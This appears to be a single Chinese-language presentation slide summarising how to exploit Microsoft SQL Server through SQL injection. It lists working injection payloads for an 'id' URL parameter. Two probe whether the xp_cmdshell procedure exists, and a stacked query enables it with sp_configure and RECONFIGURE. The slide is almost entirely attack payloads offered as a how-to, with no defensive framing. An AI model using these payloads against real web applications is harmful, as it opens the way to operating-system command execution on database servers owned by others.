

MSSQL数据库
利用总结
SQL注入+xp_cmdshell利用
#查看是否禁用xp_cmdshell
id=0' union select 1,2,count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell'--+
id=1' and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell')--+
#开启xp_cmdshell
id=0';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--+